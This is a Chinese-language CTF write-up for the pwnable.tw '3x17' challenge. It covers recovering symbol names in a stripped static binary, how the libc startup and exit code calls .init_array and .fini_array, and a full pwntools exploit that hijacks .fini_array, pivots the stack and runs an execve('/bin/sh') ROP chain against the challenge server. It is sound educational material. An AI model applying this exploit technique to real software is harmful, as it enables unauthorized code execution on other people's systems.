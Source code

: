 ```yaml
---
layout: post
title: pwnable.tw 3x17
date: 2022-08-03 20:17:00
---
```


好难的一关，顺着这关学了好多东西……

## Part0 符号名呢

### 摸索

本题是一个strip后的静态链接文件……
当我打开IDA，我看不到任何一个函数名，只有一大堆地址迎接我。
于是我在libc里耗了一天，成果只是大致知道执行了哪些函数，并且给 `read`、`write` 等库函数标了名称。

然后我想了一个方法，我是不是可以根据函数的地址来看出这是哪一个libc版本，然后就可以给每个函数都标上名称了？然而不行。
静态链接不像动态链接，它只把用到了的函数链接进文件，因此库函数的地址和它在库中的位置毫无关系。

然后当天晚上做梦的时候，我梦到真的有这么一个库，我一把库拖进IDA PRO，软件自动给所有的函数都标上了名字。
醒来的时候我一想，会不会真有根据函数特征来识别函数名的功能？拿起枕边手机一查就查到了。（话说你不能早点查吗）

### 解决

参考[利用ida pro的flare功能识别静态链接函数签名_Anciety的博客](https://blog.csdn.net/qq_29343201/article/details/74656456)

IDA支持给特定库生成一个签名，然后用这个签名识别库函数的名称！
有人已经生成过很多签名了，可以直接去[push0ebp/sig-database: IDA FLIRT Signature Database (github.com)](https://github.com/push0ebp/sig-database)下载。

那么问题来了，下哪个libc版本呢？
pwnable.tw的官网首页说，题目都运行在ubuntu16.04或18.04上，所以我先去把这两个系统对应的libc都下了下来，发现只识别了五十几个库函数……
然后又下了一大堆libc版本，最后在19.04里找到的libc6_2.28成功匹配到了六百多个库函数。

于是我终于知道哪个是main函数了……然后发现离成功还尚早……

## Part1 分析（~~放弃~~）

本关开启了NX和Canary，没开PIE，那么应该是可以修改某些东西的。
main函数干了四件事：

1. write一个"addr:"
2. read一个0x18长度的字符串，并用一个库函数将其转换成数字（当成10进制数）。
3. write一个"data:"
4. read一个0x18长度的字符串，地址是刚刚输入的数。

然后就ret了。可以发现，我们没有任何泄露栈地址的方法，没办法进行简单的ret2xxx系列攻击。
（然后我就放弃了，这题大概又是超出我知识水平范围的，所以去网上找writeup：[和媳妇一起学Pwn 之 3x17 | Clang裁缝店](https://xuanxuanblingbling.github.io/ctf/pwn/2019/09/06/317/)看了）

## Part2 main函数的启动过程

参考教程：[linux编程之main()函数启动过程_gary_ygl的博客](https://blog.csdn.net/gary_ygl/article/details/8506007)

读了文章，学到很多姿势，尤其是对于C程序的抽象->具象：
从一开始的程序运行过程就是 `main` 开始到结束；
到后来知道从 `_start` 开始，它负责调用 `__libc_start_main()`，`__libc_start_main()` 再调用 `main()` 函数；
再到现在发现 `__libc_start_main()` 干了很多事情，包括在调用 `main()` 函数之前，调用 `__libc_csu_init()` 函数，并且用 `_cxa_atexit()` 函数设置程序退出前执行 `__libc_csu_fini()` 函数（具体来说 `exit()` 调用 `_run_exit_handlers()` ，并在其中按照倒序调用之前用 `_cxa_atexit()` 注册过的函数）。并且在调用 `main()` 之后，会调用 `exit()` 函数。

（其实还干了一些初始化以及善后工作，但是和链接比较相关，和本题不那么相关）

而逆向本题可以看到，`__libc_csu_init()` 主要做两件事：

1. 调用位于 `.init` 段中的 `_init_proc()`
2. 按顺序调用位于 `.init_array` 中的函数（这是一个函数指针数组）（数组大小固定，汇编中直接用立即数地址计算数组大小）

类似地，`__libc_csu_fini()` 也干两件事，但是和init是正好顺序相反的：

1. 按逆序调用位于 `.fini_array` 中的函数（这是一个函数指针数组）（数组大小固定，汇编中直接用立即数地址计算数组大小）
2. 调用位于 `.fini` 段中的 `term_proc()`

然后画个图表示一下我的理解：

![两个csu函数的调用顺序](/images/3x17_1.jpg)

而 `.init_array` 和 `.fini_array` 都是rw的，可写！
然后我决定在懂得了这些之后再自己尝试一下利用！

## Part3 Exploitation

通过覆写一次 `.fini_array`，可以达到如图的效果。

![fini&main循环](/images/3x17_2.jpg)

由于不存在wx的段，所以放弃shellcode，想想如何ROP。
光凭 `.fini_array` 这两个call是没有用的，必须想办法stack pivot一下。

刚开始的思路是利用

```asm
0x00418820: mov rax, qword [0x00000000004B7120] ; ret  ;
0x0044f62b: xchg eax, esp ; ret  ;
```

这两个gadget来把rsp弄到我想要的地方。但是我发现这做不到，原因是 `.fini_array` 只有两个元素，我不论怎么修改这个数组，都**只能实际调用一个gadget**。
原因如下：

![覆盖fini_array的两种情况](/images/3x17_3.jpg)

我们必须要用一个gadget完成stack pivot，这意味着要么有一个gadget同时涵盖了赋值+修改rsp的工作，要么利用寄存器或栈上已有的值。
GDB动态调试到这里，发现确实有几个寄存器存着RW的位置，其中就包括rbp。然后回忆一下：`leave = mov rsp, rbp; pop rbp;` ，用这个来stack pivot。

然后利用静态链接程序的丰富gadget库轻松写出了ROP chain，拿到了shell。

```python
from pwn import *
context.arch = 'amd64'
filename="./3x17"
# io = process(["strace", filename])
# io = process([filename])
io = remote("chall.pwnable.tw", 10105)

def write(addr, data):
    io.send(str(addr).encode('ascii'))
    print(io.recvS())
    io.send(data)
    print(io.recvrepeatS(0.5))

# addr
fini_array_addr = 0x4b40f0
new_stack_addr = fini_array_addr + 0x10
csu_fini_addr = 0x402960
main_addr = 0x401b6d
sh_str_addr = 0x4b40e0   # 随便取的

# ROP gadget
pop_rax = 0x0041e4af
pop_rdi = 0x00401696
pop_rdx_rsi = 0x0044a309
mov_rax_val = 0x0044f62b
leave = 0x00401c4b
syscall = 0x00471db5
return_ = 0x00401016    # just a normal ret，用来占位子

# ROP payload
payload1 = pack(pop_rax) + pack(59) + pack(pop_rdi)
payload2 = pack(sh_str_addr) + pack(pop_rdx_rsi) + pack(0)
payload3 = pack(0) + pack(syscall) + pack(0)

# pwn
write(fini_array_addr, pack(csu_fini_addr) + pack(main_addr))

write(sh_str_addr, b'/bin/sh\x00')
write(new_stack_addr, payload1)
write(new_stack_addr + 8*3, payload2)
write(new_stack_addr + 8*6, payload3)

write(fini_array_addr, pack(leave) + pack(return_) + pack(pop_rax))

io.interactive()
```

一个小技巧：
如果不间断地给程序数据，很可能send到同一个 `read()` 里。
面对这种情况，可以在两个 `send()` 中间 `recv()` 一下，又或者加上一个 `pause()` 手动停止，又或者加上一个 `sleep(0.15)` 来自动停止。
